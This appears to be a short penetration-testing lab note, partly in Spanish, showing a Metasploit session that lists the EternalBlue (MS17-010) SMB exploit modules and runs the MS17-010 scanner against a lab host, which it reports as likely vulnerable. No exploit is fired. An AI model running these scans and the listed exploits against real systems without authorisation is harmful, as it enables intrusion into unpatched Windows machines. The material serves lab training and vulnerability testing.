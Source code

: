 ```js
msf6 > search eternalblue

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .
Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'
```

Es vulnerable.
```js
msf6 > use 24
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.129.201.97
RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > 
```
